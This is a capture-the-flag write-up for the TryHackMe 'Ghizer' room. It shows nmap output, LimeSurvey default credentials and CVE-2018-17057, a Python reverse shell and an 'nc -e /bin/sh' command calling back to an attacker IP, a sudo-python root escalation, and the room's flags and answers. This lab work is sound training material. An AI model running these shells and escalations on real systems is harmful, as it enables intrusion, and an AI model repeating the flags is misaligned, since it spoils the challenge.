 # Ghizer

lucrecia has installed multiple web applications on the server.

[Ghizer](https://tryhackme.com/room/ghizerctf)

## Topic's

- Network Enumeration
- Security Misconfiguration
- CVE-2018-17057 - LimeSurvey < 3.16
- Stored Passwords & Keys
- Abusing SUID/GUID

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Flag

Are you able to complete the challenge?
The machine may take up to 5 minutes to boot and configure

```
kali@kali:~/CTFs/tryhackme/Ghizer$ sudo nmap -A -sS -sC -sV -O 10.10.106.146
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-11 17:18 CEST
Nmap scan report for 10.10.106.146
Host is up (0.032s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, RTSPRequest, X11Probe:
|     220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
|     Please login with USER and PASS.
|   Kerberos, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|_    220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: LimeSurvey http://www.limesurvey.org
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title:         LimeSurvey
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 5.4.2
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Ghizer &#8211; Just another WordPress site
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-23T17:27:31
|_Not valid after:  2030-07-21T17:27:31
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.80%I=7%D=10/11%Time=5F83224D%P=x86_64-pc-linux-gnu%r(NUL
SF:L,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x2
SF:03\.0\.3\)\n")%r(GenericLines,58,"220\x20Welcome\x20to\x20Anonymous\x20
SF:FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x20with\
SF:x20USER\x20and\x20PASS\.\n")%r(Help,58,"220\x20Welcome\x20to\x20Anonymo
SF:us\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x2
SF:0with\x20USER\x20and\x20PASS\.\n")%r(GetRequest,58,"220\x20Welcome\x20t
SF:o\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please
SF:\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(HTTPOptions,58,"220\x2
SF:0Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n
SF:530\x20Please\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(RTSPReque
SF:st,58,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x
SF:203\.0\.3\)\n530\x20Please\x20login\x20with\x20USER\x20and\x20PASS\.\n"
SF:)%r(RPCCheck,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20
SF:\(vsFTPd\x203\.0\.3\)\n")%r(DNSVersionBindReqTCP,58,"220\x20Welcome\x20
SF:to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Pleas
SF:e\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(DNSStatusRequestTCP,5
SF:8,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\
SF:.0\.3\)\n530\x20Please\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(
SF:SSLSessionReq,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x2
SF:0\(vsFTPd\x203\.0\.3\)\n")%r(TerminalServerCookie,33,"220\x20Welcome\x2
SF:0to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n")%r(TLSSes
SF:sionReq,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsF
SF:TPd\x203\.0\.3\)\n")%r(Kerberos,33,"220\x20Welcome\x20to\x20Anonymous\x
SF:20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n")%r(SMBProgNeg,33,"220\x20We
SF:lcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n")%
SF:r(X11Probe,58,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(
SF:vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x20with\x20USER\x20and\x20P
SF:ASS\.\n")%r(FourOhFourRequest,58,"220\x20Welcome\x20to\x20Anonymous\x20
SF:FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x20with\
SF:x20USER\x20and\x20PASS\.\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/11%OT=21%CT=1%CU=43159%PV=Y%DS=2%DC=T%G=Y%TM=5F8322
OS:F6%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=7%ISR=106%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   30.98 ms 10.8.0.1
2   31.23 ms 10.10.106.146

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 178.89 seconds
```

[http://10.10.106.146/index.php/admin/authentication/sa/login](http://10.10.106.146/index.php/admin/authentication/sa/login)

[https://survey-consulting.com/how-to-restore-a-limesurvey-password/](https://survey-consulting.com/how-to-restore-a-limesurvey-password/)

`admin:password`

[http://10.10.106.146/installer/](http://10.10.106.146/installer/)

[LimeSurvey < 3.16 - Remote Code Execution ](https://www.exploit-db.com/exploits/46634)

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

```php
'username' => 'Anny',
                        'password' => 'P4$W0RD!!#S3CUr3!',
```

```
https://10.10.106.146/?devtools
```

`stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()`

`print new java.lang.Runtime().exec("nc 10.8.106.222 1337 -e /bin/sh")`

```
kali@kali:~/CTFs/tryhackme/Ghizer$ nc -nvlp 1337
listening on [any] 1337 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.106.146] 40546
python -c "import pty; pty.spawn('/bin/bash')"
veronica@ubuntu:~$ cd ~
cd ~
veronica@ubuntu:~$ ls
ls
base.py  Documents  examples.desktop  Music     Public       Templates  Videos
Desktop  Downloads  ghidra_9.0        Pictures  __pycache__  user.txt
veronica@ubuntu:~$ cat user.txt
cat user.txt
THM{EB0C770CCEE1FD73204F954493B1B6C5E7155B177812AAB47EFB67D34B37EBD3}
veronica@ubuntu:~$
```

`echo 'import pty; pty.spawn("/bin/bash")' >> /home/veronica/base.py`

```
veronica@ubuntu:~$ rm -rf base.py
rm -rf base.py
veronica@ubuntu:~$ echo 'import pty; pty.spawn("/bin/bash")' >> /home/veronica/base.py
<port pty; pty.spawn("/bin/bash")' >> /home/veronica/base.py
veronica@ubuntu:~$ sudo /usr/bin/python3.5 /home/veronica/base.py
sudo /usr/bin/python3.5 /home/veronica/base.py
root@ubuntu:~# whoami
whoami
root
root@ubuntu:~# cd /root
cd /root
root@ubuntu:/root# ls
ls
Lucrecia  root.txt
root@ubuntu:/root# cat root.txt
cat root.txt
THM{02EAD328400C51E9AEA6A5DB8DE8DD499E10E975741B959F09BFCF077E11A1D9}
root@ubuntu:/root#
```

1. What are the credentials you found in the configuration file? example: user:password

`Anny:P4$W0RD!!#S3CUr3!`

2. What is the login path for the wordpress installation?

`/?devtools`

3. Compromise the machine and locate user.txt

`THM{EB0C770CCEE1FD73204F954493B1B6C5E7155B177812AAB47EFB67D34B37EBD3}`

4. Escalate privileges and obtain root.txt

`THM{02EAD328400C51E9AEA6A5DB8DE8DD499E10E975741B959F09BFCF077E11A1D9}`
